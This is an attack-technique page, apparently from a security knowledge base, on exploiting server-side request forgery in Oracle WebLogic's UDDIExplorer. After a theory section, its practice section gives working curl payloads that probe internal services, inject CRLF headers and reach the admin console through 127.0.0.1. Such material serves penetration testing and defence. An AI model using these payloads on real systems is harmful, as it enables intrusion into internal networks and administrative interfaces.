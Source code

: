 ```yaml
---
title: Exploiting SSRF Vulnerabilities in WebLogic
description: Explore WebLogic SSRF exploitation using UDDIExplorer and CRLF injection
  for admin console access.
keywords:
- WebLogic
- SSRF exploitation
- UDDIExplorer
- CRLF injection
- Admin Console access
- HTTP endpoints
- server vulnerabilities
---
```


# WebLogic

## Context

This article focuses on exploiting Server Side Request Forgery (SSRF) vulnerabilities in Oracle WebLogic through HTTP-based service interactions. We will explore specific techniques using UDDIExplorer, CRLF injection, and unauthorized console access. Readers should be familiar with HTTP protocol, server request handling, web application architecture, and general concepts of SSRF.

## Theory

### WebLogic Server SSRF Attack Surface

Oracle WebLogic is a widely used Java EE application server that provides various HTTP endpoints, including administrative interfaces. These endpoints can be leveraged in SSRF attacks due to their processing of user-supplied URLs. Specifically, WebLogic components like UDDIExplorer can be exploited if they do not adequately validate input, allowing attackers to trigger server-side HTTP requests to arbitrary destinations.

### UDDIExplorer SSRF Mechanism

UDDIExplorer is a WebLogic component designed for interacting with UDDI registries, accessible at `/uddiexplorer/SearchPublicRegistries.jsp`. An attacker can exploit this component by supplying a crafted URL. This URL causes WebLogic to initiate an HTTP request to a server controlled by the attacker or an internal service, revealing sensitive information or leading to further exploitation.

### CRLF Injection in WebLogic SSRF

CRLF injection involves inserting carriage return (CR) and line feed (LF) characters into SSRF payloads, manipulating HTTP headers in the process. An attacker can craft SSRF payloads containing these sequences, potentially bypassing filters or altering HTTP requests' behavior, thereby enhancing the impact of an SSRF attack.

### WebLogic Console Access via SSRF

The WebLogic Admin Console provides an HTTP interface for server management, usually restricted to internal access. SSRF vulnerabilities can be exploited to interact with or access the Admin Console from an external attacker’s perspective, effectively bypassing usual access controls and potentially leading to full server compromise.

## Practice

### UDDIExplorer SSRF to Internal HTTP Service

- Utilize `curl` to send a POST request to UDDIExplorer:

    ```bash
    curl -k -X POST 'https://<target>:7001/uddiexplorer/SearchPublicRegistries.jsp' -d 'operator=search&businessName=&serviceName=&searchFor=businesses&businessLocation=<INTERNAL_URL>'
    ```

    This command initiates a server-side request from WebLogic to an internal HTTP service specified by `<INTERNAL_URL>`, facilitating enumeration of these services.

### CRLF Injection in SSRF Payloads

1. Craft a payload with CRLF sequences to manipulate HTTP headers:

    ```http
    http://internal-service/evil%0d%0aInjected-Header: injected
    ```

2. Execute the SSRF attack with this payload using `curl`:

    ```bash
    curl -k -X POST 'https://<target>:7001/uddiexplorer/SearchPublicRegistries.jsp' -d 'operator=search&businessName=&serviceName=&searchFor=businesses&businessLocation=http://internal-service/evil%0d%0aInjected-Header: injected'
    ```

    This action allows an attacker to bypass input validation and manipulate headers in outbound requests from WebLogic.

### Accessing WebLogic Admin Console via SSRF

1. Target the Admin Console using a loopback address:

    ```http
    http://127.0.0.1:7001/console
    ```

2. Trigger the SSRF with `curl`:

    ```bash
    curl -k -X POST 'https://<target>:7001/uddiexplorer/SearchPublicRegistries.jsp' -d 'operator=search&businessName=&serviceName=&searchFor=businesses&businessLocation=http://127.0.0.1:7001/console'
    ```

    This can be used to gain unauthorized access to WebLogic's Admin Console, leveraging SSRF to exploit potential application misconfigurations.

## Tools

- **curl**: A command-line tool used for sending HTTP requests, essential for crafting and testing SSRF payloads.
